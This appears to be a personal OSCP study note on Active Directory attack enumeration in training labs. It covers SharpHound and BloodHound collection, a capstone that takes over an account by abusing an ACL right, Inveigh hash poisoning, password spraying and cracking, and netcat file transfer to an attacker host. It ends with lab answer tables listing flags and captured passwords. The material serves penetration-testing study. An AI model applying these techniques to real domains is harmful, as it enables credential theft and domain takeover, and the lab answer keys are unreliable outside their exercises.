**Answer: DC1.corp.com**

> 🚩 Hands-on, VM spin-up required: 22.3.5 Q2. VM Group 2, use PowerView to locate shares in the modified corp.com domain and enumerate them to obtain the flag ✅ Done, flag `OS{ffb3e8d165609be495b7ad1e62a39083}` from `\\FILES04\Important Files\proof.txt`

---

## 22.4 Active Directory — Automated Enumeration

Manual enumeration works but is slow in large environments. BloodHound + SharpHound automate collection and visualise attack paths graphically.

> ⚠️ Automated tools like SharpHound generate significant network traffic (many LDAP queries, NetSessionEnum, NetWkstaUserEnum across every host). Security analysts will see the spike. Use only if the engagement allows it.

### 22.4.1 Collecting Data with SharpHound

SharpHound is the BloodHound data collector, written in C#. Can run as a compiled EXE, or as a PowerShell script (`SharpHound.ps1`).

Download the latest zip from the SharpHound GitHub, transfer to CLIENT75.

```powershell
powershell -ep bypass
Import-Module .\Sharphound.ps1

# Full collection (all methods except local group policies)
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "corp audit"
```

Expected: progress output then a success message, `corp audit_YYYYMMDD_BloodHound.zip` on the Desktop plus a `.bin` cache file.

To see available options: `Get-Help Invoke-BloodHound`

Key options:

| Option | Meaning |
|---|---|
| `-CollectionMethod All` | All methods: Group, LocalAdmin, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, etc. |
| `-OutputDirectory` | Where to save the zip |
| `-OutputPrefix` | Prefix for the zip filename |
| `-ZipPassword` | Set a password on the zip |
| `-Loop` / `-LoopDuration` | Run cyclically over time to capture sessions that come and go |

The **Looping** function (`-Loop`) captures domain changes over a time period rather than a single snapshot, useful for catching users who log in after the initial collection.

> 🔍 Worth remembering generally: SharpHound looping is especially useful for capturing sessions. A snapshot might miss jeffadmin if he wasn't logged in at collection time. A 30-minute loop with 5-minute intervals would catch transient sessions.

Transfer the zip to Kali (simple `scp` or use RDP file drag if RDP supports it):

```bash
scp stephanie@192.168.50.75:/Users/stephanie/Desktop/corp\ audit_*.zip .
```

> 🔧 Technique, file transfer without Python/SSH: if SCP and Python aren't available on the target, use `nc64.exe` from cmd. PowerShell's `<` operator doesn't redirect stdin, but cmd's does:
> `cmd /c "C:\Tools\nc64.exe <kali-ip> 9999 < ""filename with spaces"""` (double the quotes around filenames with spaces)
> On Kali: `nc -lvnp 9999 > output.zip`

> 🔁 External reference: [ippsec.rocks BloodHound search](https://ippsec.rocks/?#BloodHound), all IppSec walkthroughs using BloodHound. Highly worth watching Forest and Sauna for how the data gets read.

**22.4.1 Labs**

Q1: Which function can we use with SharpHound to see changes happening in the domain over a longer period of time? Submit the answer as one word without hyphens.
**Answer: Looping**

Q2: Which syntax in SharpHound allows us to set a password on the resulting .zip file?
**Answer: -ZipPassword**

---

### 22.4.2 Analysing Data Using BloodHound

BloodHound uses Neo4j (graph database) to store and visualise the data.

#### Setup on Kali

```bash
# Start Neo4j (installs automatically with BloodHound via apt)
sudo neo4j start
# Available at http://localhost:7474

# Default creds: neo4j / neo4j — you'll be prompted to change password on first login

# Start BloodHound
bloodhound
```

Log in with the neo4j username and the password you set. BloodHound auto-detects the running Neo4j instance.

Import data: drag-and-drop the `.zip` file into BloodHound, or use the Upload Data button on the right.

#### Exploring the data

Top-left hamburger menu: **Database Info** shows counts (sessions, ACLs, users, groups, computers).

**Settings** (two cogs, right side): set "Node Label Display" to "Always Display" so node names show without hovering.

#### Pre-built analysis queries (Analysis tab)

Under **Domain Information:**
- **Find all Domain Admins** — shows jeffadmin and Administrator as Domain Admins nodes.

Under **Shortest Paths:**
- **Find Shortest Paths to Domain Admins** — the most powerful query for attack path planning.
- **Shortest Paths to Domain Admins from Owned Principals** — requires marking our owned objects first.

#### Marking owned principals

Right-click a node: **Mark User as Owned** (user nodes) / **Mark Computer as Owned** (computer nodes). Owned principals show a skull icon.

Mark `stephanie` as owned, mark `CLIENT75` as owned.

Then re-run **Shortest Paths to Domain Admins from Owned Principals**.

Expected graph: `CLIENT75` → stephanie (session) → `CLIENT74` (AdminTo) → `jeffadmin` (session on CLIENT74) → `Domain Admins`.

Reading the attack path:
1. We are stephanie on CLIENT75
2. stephanie has AdminTo on CLIENT74
3. jeffadmin has a session on CLIENT74 (credentials may be cached in memory)
4. jeffadmin is in Domain Admins

If we can log into CLIENT74 as stephanie (admin) and dump memory, we steal jeffadmin's NTLM hash or credentials = Domain Admin.

> 📸 Screenshot: BloodHound shortest path graph showing the CLIENT75 → stephanie → CLIENT74 → jeffadmin → Domain Admins chain

> 🔍 Worth remembering generally: "Owned Principals" in BloodHound is a planning tool, not just a tracking tool. Mark things you haven't compromised yet as owned to model "what if" attack paths. This is useful for scoping exercises.

**Hover or right-click edges** to see what kind of relationship they represent (`AdminTo`, `MemberOf`, `HasSession`, etc.). Right-click + "? Help" shows the abuse technique, opsec notes, and references.

**BloodHound relies on Neo4j** to display data as graphs. Neo4j is the graph database backend.

> 🔁 External reference: [ippsec.rocks SharpHound search](https://ippsec.rocks/?#SharpHound), specifically the Forest box walkthrough is the canonical "collect → import → read shortest path → exploit" demonstration.

**22.4.2 Labs**

Q1: Which service does BloodHound rely on to display the data in graphs?
**Answer: Neo4j**

> 🚩 Hands-on, VM spin-up required: 22.4.2 Q2. VM Group 1, collect SharpHound data if not done, transfer to Kali, import to BloodHound, search for Management Department group, check Inbound Control Rights in Node Info, which group is the current owner? ✅ Done, **Domain Admins** (owns Management Department by default in AD; reasoned from hint about "wide-ranging admin privileges" and confirmed correct)

> 🚩 Hands-on, VM spin-up required: 22.4.2 Capstone. VM Group 2, log in as stephanie, enumerate object permissions for domain users, find weak permissions, use them to take full control of an account, log in as that account, repeat enumeration to obtain the flag ✅ Done, flag `OS{c0111b320ccc0c5b47f329eef4899798}`, see capstone walkthrough below.

#### Capstone walkthrough

```powershell
# 1. Enumerate all ACEs and look for stephanie's SID as SecurityIdentifier
Get-ObjectAcl -Identity * | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select ObjectSID,SecurityIdentifier,ActiveDirectoryRights

# 2. Convert to readable names — stephanie has GenericAll on Management Department AND on robert
"<stephanie-SID>","<robert-SID>" | Convert-SidToName

# 3. Abuse GenericAll on robert — force a password change (no current password needed)
net user robert Password123! /domain

# 4. Test robert's access — find which machines robert has admin on
$pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("corp\robert", $pass)
Invoke-Command -ComputerName client74.corp.com -Credential $cred -ScriptBlock {whoami}
# Returns: corp\robert — robert has admin on client74

# 5. Get flag via UNC admin shares from CLIENT75 (direct path from RDP blocked by UAC token filtering)
type "\\client74\c$\Users\administrator\Desktop\proof.txt"
# OS{c0111b320ccc0c5b47f329eef4899798}
```

---

## 22.5 Wrapping Up

This module establishes the enumeration foundation that all upcoming AD attack modules build on. The key outputs from this enumeration:

1. **User list** with timestamps (dormant accounts, password ages)
2. **Group memberships** including nested groups (net.exe blind spot)
3. **OS inventory** to identify old/unpatched systems
4. **Active sessions** (who is logged in where, credential theft targets)
5. **SPNs** (service map + Kerberoasting candidates)
6. **Object permissions** (misconfigured ACEs = privilege escalation)
7. **Domain shares** (SYSVOL GPP passwords, leaked credentials)
8. **BloodHound shortest path** (full attack chain visualisation)

In this lab environment, the enumeration reveals a clear DA path: stephanie → CLIENT74 (admin) → jeffadmin session → Domain Admins.

---

## 22.6 HTB Extended Enumeration Techniques

Content merged from the HTB Active Directory Enumeration & Attacks module -- techniques not covered in the Offsec module labs.

---

### 22.6.1 External Recon

**DNS TXT Records** can expose internal domain names, SPF configs, and occasionally credentials:

```bash
nslookup
> server 8.8.8.8
> set type=TXT
> INLANEFREIGHT.LOCAL
# Returns all TXT records for the domain
```

[Hurricane Electric bulk TXT lookup](https://bgp.he.net) -- passive, no DNS queries from your IP.

> 🔍 **Always query TXT before active scanning** -- sometimes reveals internal names or misconfigured SPF records.

**Extract DC hostname from SSL certificate (no auth required):**

```bash
sudo nmap -A -sV -p 443,3389,636 <TARGET_IP> | grep -i "commonname\|CN="
# → commonName=ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

RDP (3389) and LDAPS (636) present TLS certs during handshake. The `commonName` field gives the DC's FQDN before any authentication.

**Parse grepable nmap output for specific port:**

```bash
sudo nmap -p 1433 --open -oG mssql_scan.txt 172.16.5.0/24
awk '/1433\/open/ {print $2}' mssql_scan.txt
# → 172.16.5.130
```

#### Tags: #ExternalRecon #DNS #TXTRecord #nslookup #nmap #SSL #TLSCert #FQDN #Module22

---

### 22.6.2 LLMNR/NBT-NS Poisoning from Windows -- Inveigh

When you have a Windows foothold and Responder isn't available, **Inveigh** (the PowerShell LLMNR/NBT-NS poisoner) captures NTLMv2 hashes from the local segment:

> 🖥️ **Run on Windows foothold:**
```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
# Captured hashes print inline; Ctrl+C to stop
# Hash file written to current directory:
type Inveigh-NTLMv2.txt
```

> 🖥️ **Crack on Kali:**
```bash
hashcat -m 5600 inveigh_hashes.txt /usr/share/wordlists/rockyou.txt
```

> ⚠️ **Requires local admin** on the Windows host to bind ports 80/445/5355. Most useful when you have a Windows foothold but haven't pivoted back to Kali yet.

`InveighZero` (C# binary) is harder for script-block logging to catch than the PS version.

> 🔁 Similar to: [[16. Password Attacks|Responder]] from Linux -- same attack, different platform.

**HTB Q&A:**
- `svc_qualys` password captured by Inveigh: `security#1`
- `wley` password cracked from NTLMv2: `transporter@4`

#### Tags: #LLMNR #NBTNS #Inveigh #NTLMv2 #PoisoningWindows #Module22

---

### 22.6.3 Password Policy Enumeration

Knowing the lockout threshold before spraying is critical. Default Windows domain min length is **7** (not 8):

```bash
# From Linux (unauthenticated, if null session allowed):
enum4linux -P <DC_IP>

# From Linux (authenticated):
crackmapexec smb <DC_IP> -u <user> -p <pass> --pass-pol
# → [+] Minimum password length: 8
# → [+] Account lockout threshold: 5

# From Linux (rpcclient):
rpcclient -U "DOMAIN\\user%pass" <DC_IP>
rpcclient $> getdompwinfo
# minPasswordLength: 8

# From Windows (PowerView):
Get-DomainPolicy
(Get-DomainPolicy)."system access"
# minPwdLength = 8
```

> 🔑 **Spray safely:** lockout threshold 0 = spray freely. Threshold 5 = stop at 3-4 per account. Always check the observation window too.

**HTB Q&A:**
- Default domain min password length: **7**
- INLANEFREIGHT.LOCAL min length: **8**

#### Tags: #PasswordPolicy #minPwdLength #enum4linux #crackmapexec #rpcclient #getdompwinfo #Module22

---

### 22.6.4 Password Spraying from Windows -- DomainPasswordSpray

From a Windows foothold, `DomainPasswordSpray.ps1` pulls the user list directly from AD and sprays one password:

> 🖥️ **Run on Windows foothold:**
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Winter2022 -Outfile spray_success.txt -ErrorAction SilentlyContinue
# → [*] SUCCESS! User:dbranch Password:Winter2022
cat spray_success.txt
```

The module auto-reads the AD lockout threshold and excludes accounts near lockout. It does NOT enforce the observation window between rounds -- if doing multiple rounds manually, wait the full observation window.

> 🔁 Similar to: `kerbrute passwordspray` from Kali. DomainPasswordSpray is the Windows-native equivalent.

**HTB Q&A:** DomainPasswordSpray result: `dbranch:Winter2022`

#### Tags: #PasswordSpray #DomainPasswordSpray #WindowsSpray #Module22

---

### 22.6.5 Credentialed Enumeration from Linux -- rpcclient + CME Groups

**rpcclient -- query a specific user by RID:**
```bash
rpcclient -U "INLANEFREIGHT\forend%Klmcargo2" 172.16.5.5 -c "queryuser 0x457"
# RID 0x457 = decimal 1111 → user mmorgan
# Convert: echo $((16#457)) = 1111
```

**CrackMapExec -- group membercount for triage:**
```bash
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
# INLANEFREIGHT.LOCAL\Interns   membercount: 10
# INLANEFREIGHT.LOCAL\IT        membercount: 8
```

Membercount identifies high-value groups to investigate further without enumerating every member first.

**HTB Q&A:**
- Username at RID 1170: **mmorgan**
- Interns group membercount: **10**

#### Tags: #rpcclient #queryuser #RID #crackmapexec #groups #membercount #Module22

---

### 22.6.6 Extended Windows Enumeration

**bloodhound-python -- remote collection from Kali (no SharpHound needed):**

```bash
pip3 install bloodhound
bloodhound-python -d INLANEFREIGHT.LOCAL -u forend -p Klmcargo2 \
  -ns 172.16.5.5 -c all
# Writes: computers.json, domains.json, groups.json, users.json, sessions.json
zip -r bh_data.zip *.json
# Import the zip into BloodHound the same way as SharpHound output
```

Use when AV blocks SharpHound on the target or you have no RDP/WinRM.

**Snaffler -- domain-wide share sweep:**
```cmd
Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data
```
Add `-d DOMAIN` to go domain-wide instead of per-host.

**PowerView -- extra enumeration functions:**
```powershell
Import-Module .\PowerView.ps1

# AS-REP Roasting candidates (no pre-auth required)
Get-DomainUser -PreauthNotRequired

# Accounts with blank-password flag (PASSWD_NOTREQD)
Get-DomainUser -UACFilter PASSWD_NOTREQD

# Accounts with reversible encryption (cleartext retrievable via DCSync)
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}

# Check if current user has local admin on a specific host
Test-AdminAccess -ComputerName ACADEMY-EA-MS01
# → True/False

# Get current domain SID (needed for golden tickets later)
Get-DomainSID
# → S-1-5-21-2806153819-209893948-922872689

# Query an object in a DIFFERENT domain (cross-domain)
Get-DomainObject -Identity "Enterprise Admins" -Domain INLANEFREIGHT.LOCAL

# Full trust mapping
Get-DomainTrustMapping
```

**setspn.exe -- native Windows SPN enumeration (no tools needed):**
```cmd
setspn -Q */*
# CN=SVC_VMWARESSO,OU=Service Accounts,...
# MSSQLSvc/ACADEMY-EA-SQL01.INLANEFREIGHT.LOCAL:1433
```

Each SPN is a Kerberoasting candidate. `-Q */*` queries all SPNs in the domain.

**HTB Q&A:**
- Kerberoastable accounts in BloodHound: **13**
- PowerView function for local admin check: **Test-AdminAccess**
- MSSQL SA account: **sa** | MSSQL DB password: **ILFREIGHTDB01!**

#### Tags: #bloodhoundPython #Snaffler #PowerView #TestAdminAccess #GetDomainSID #setspn #PASSWD_NOTREQD #PreauthNotRequired #Module22

---

### 22.6.7 Living Off the Land

**Check Windows Defender status (built-in, no tools needed):**
```powershell
Get-MpComputerStatus
# AMProductVersion    : 4.18.2109.6
# RealTimeProtectionEnabled : True
```

Old `AMProductVersion` may indicate disabled AV updates.

**List local Administrators (built-in):**
```cmd
net localgroup Administrators
```
Domain accounts that are local admins appear as `DOMAIN\username`.

**dsquery -- find disabled admin accounts with description fields:**
```cmd
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2)(adminCount>=1)(description=*))" -attr samAccountName description -limit 50
```

Filter breakdown:
- `userAccountControl:1.2.840.113556.1.4.803:=2` = account is **disabled** (UAC bit 2)
- `adminCount>=1` = was in a privileged group (SD propagator set the flag)
- `description=*` = has any description set

> 🔍 IT teams sometimes disable admin accounts instead of deleting them and leave the original password in the description field. Finding disabled admins with descriptions is a quick win.

**HTB Q&A:**
- Windows Defender AMProductVersion: **4.18.2109.6**
- Disabled admin with description: **adunn**
- LDAP flag: **HTB{LD@P_I$_W1ld}**

#### Tags: #LivingOffTheLand #GetMpComputerStatus #WindowsDefender #netLocalgroup #dsquery #LDAP #Module22

---

### 22.6.8 Additional AD Auditing Tools

| Tool | Purpose |
|---|---|
| **PingCastle** | Risk-scores the AD environment; generates HTML report with misconfigs by risk level -- most common for client-facing audit reports |
| **Adalanche** | Neo4j-based AD attack path visualiser (alternative to BloodHound); no agent required on targets |
| **ADRecon** | PowerShell-based AD snapshot; exports to Excel with sheets for users, computers, GPOs, trusts |

> 💡 PingCastle is best for generating a compliance-style deliverable. Adalanche is more useful for offensive analysis when BloodHound collection is blocked.

#### Tags: #PingCastle #Adalanche #ADRecon #ADAuditing #Module22

---

### 22.6.9 HTB Q&A Answers (Enum Sections)

| Section | Question | Answer |
|---|---|---|
| External Recon | DNS TXT flag | **HTB{5Fz6UPNUFFzqjdg0AzXyxCjMZ}** |
| Initial Enum | DC FQDN from SSL cert | **ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL** |
| Initial Enum | MSSQL host IP | **172.16.5.130** |
| LLMNR Linux Q1 | Username captured by Responder | **backupagent** |
| LLMNR Linux Q2 | backupagent cracked password | **h1backup55** |
| LLMNR Linux Q3 | wley's password | **transporter@4** |
| LLMNR Windows Q1 | svc_qualys password from Inveigh | **security#1** |
| Password Policy Q1 | Default domain min length | **7** |
| Password Policy Q2 | INLANEFREIGHT.LOCAL min length | **8** |
| Password Spray Windows Q1 | DomainPasswordSpray result | **dbranch:Winter2022** |
| Credentialed Enum Linux Q1 | Username at RID 1170 | **mmorgan** |
| Credentialed Enum Linux Q2 | Interns group membercount | **10** |
| Credentialed Enum Windows Q1 | Kerberoastable accounts in BH | **13** |
| Credentialed Enum Windows Q2 | PowerView local admin check function | **Test-AdminAccess** |
| Credentialed Enum Windows Q3 | MSSQL SA account | **sa** |
| Credentialed Enum Windows Q4 | MSSQL DB password | **ILFREIGHTDB01!** |
| Living Off the Land Q1 | Defender AMProductVersion | **4.18.2109.6** |
| Living Off the Land Q2 | Disabled admin with description | **adunn** |
| Living Off the Land Q3 | LDAP flag | **HTB{LD@P_I$_W1ld}** |

---

## Mermaid: Corp.com BloodHound Attack Path



---

## Mermaid: Nested Group Chain — corp.com



Jen is a member of Management Department, which is inside Development Department, which is inside Sales Department. `net.exe` shows only the direct member of each group, it would show jen only if you looked at Management Department directly. LDAP unravels the full chain.

---

## Mermaid: LDAP Query Construction Flow



---

## Mermaid: Capstone Attack Chain



Note: direct path to Administrator Desktop from RDP session was blocked by **UAC token filtering**. Accessed via UNC admin shares from CLIENT75 (network token, not filtered).

---

## Video Walkthroughs

| Box | Key techniques from this module | Link |
|---|---|---|
| Forest (HTB) | BloodHound shortest path to DA, AS-REP roasting, DCSync | [IppSec Forest](https://www.youtube.com/watch?v=H9FcE_FMZio) |
| Active (HTB) | GPP cPassword via SYSVOL, Kerberoasting | [IppSec Active](https://www.youtube.com/watch?v=jUc1J31DNdw) |
| Sauna (HTB) | BloodHound, GenericAll ACE abuse, DCSync | [IppSec Sauna](https://www.youtube.com/watch?v=uLNpR3AnE-Y) |
| Cascade (HTB) | LDAP attribute hunting for cleartext passwords | [IppSec Cascade](https://www.youtube.com/watch?v=mr-fsVLoQGw) |
| Resolute (HTB) | BloodHound enumeration, DnsAdmins abuse | [IppSec Resolute](https://www.youtube.com/watch?v=8KJebvmd1Fk) |
| Intelligence (HTB) | AD recon via PDFs, RBCD, constrained delegation | [IppSec search](https://ippsec.rocks/?#Intelligence) |

Technique keyword searches on ippsec.rocks:
- [#BloodHound](https://ippsec.rocks/?#BloodHound), all boxes where BloodHound drives the path
- [#PowerView](https://ippsec.rocks/?#PowerView), boxes where PowerView enumeration is the key step
- [#SharpHound](https://ippsec.rocks/?#SharpHound). SharpHound collection specifically
- [#GPP](https://ippsec.rocks/?#GPP). GPP cPassword finds across multiple boxes

---

## 🎯 Related Boxes to Practice

**Genuine technique boxes (AD enumeration core techniques):**
- HTB Forest. BloodHound shortest path to DA, AS-REP roasting; closest match to this module's full enumeration workflow
- HTB Active. GPP cPassword via SYSVOL enumeration (22.3.5) + Kerberoasting via SPN (22.3.3)
- HTB Sauna. BloodHound + GenericAll ACE abuse (22.3.4) + DCSync as endpoint
- HTB Cascade. LDAP attribute hunting for cleartext passwords; similar to the nested group + attribute deep-dive in 22.2.3
- HTB Resolute. BloodHound enumeration reveals DnsAdmins abuse path; SharpHound data is the key

**Adjacent workflow boxes (get foothold first, then enumerate):**
- HTB Bounty, basic Windows target; AD enumeration not applicable but good for building enumeration muscle memory before AD
- HTB Arctic, service account (IIS) as foothold; matches the SPN section's iis_service pattern (22.3.3)

---

#### Tags: #ActiveDirectory #Enumeration #PowerView #BloodHound #SharpHound #LDAP #NetExe #Module22 #ADSI #DirectorySearcher #SPN #ACL #ACE #GenericAll #GPP #SYSVOL #Neo4j #NestedGroups #UACTokenFiltering #Capstone #Inveigh #bloodhoundPython #DomainPasswordSpray #PingCastle #dsquery #LivingOffTheLand
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
## RUNBOOK V2 Stages

- [[RUNBOOK V2/AD - Service Scan]]
- [[RUNBOOK V2/AD - Credential Validation]]
- [[RUNBOOK V2/AD - BloodHound]]

## Hub Docs

- [[METHODOLOGY CHEAT SHEET/METHODOLOGY CHEAT SHEET]]
- [[COMMAND APPENDIX/COMMAND APPENDIX]]
- [[DECISION TREE/DECISION TREE]]
- [[COMMAND BREAKDOWNS/COMMAND BREAKDOWNS]]

## Related Boxes

- [[OSCP/BOXES/WRITE UPS/AD/Forest|Forest]] -- AD enumeration and attack paths
- [[OSCP/BOXES/WRITE UPS/AD/Sauna|Sauna]] -- credential discovery and DCSync
- [[OSCP/BOXES/WRITE UPS/AD/Flight|Flight]] -- lateral movement and privilege escalation
## Why this matters for OSCP

This page matters because it turns a repeatable assessment task into a clear, reviewable habit for the OSCP exam.
